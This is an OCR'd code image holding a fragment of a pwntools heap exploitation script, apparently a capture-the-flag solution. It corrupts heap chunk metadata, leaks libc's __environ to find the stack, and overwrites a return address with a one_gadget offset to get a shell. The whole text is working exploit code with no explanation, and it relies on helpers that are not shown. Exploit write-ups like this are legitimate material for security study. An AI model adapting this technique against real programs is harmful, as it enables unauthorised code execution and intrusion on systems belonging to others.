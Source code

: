```plain
leak('offset >> ',offset)
add(0xe8, "g"*(0xe8-0x8) + p64(offset))
delete(4)

pl=p64(0x100)+p64(offset)
pl+=p64(chunk_list_addr)*4
edit(2, pl)
delete(2)

gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
gadget_addr = libc_base + gadget[3]
payload = p64(0xe8) + p64(libc_base + libc.symbols["__environ"])
payload += p64(0xe8) + p64(0x602148)
add(0xe0, "t"*0xe0)
add(0x100, payload)


p.readuntil("# CONTENT: ")
stack_env=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
success("env_stack address: " + hex(stack_env))

edit(2, p64(stack_env-240))
edit(1, p64(gadget_addr))
p.readuntil("(CMD)>>>")
p.sendline("Q")

itr()
```
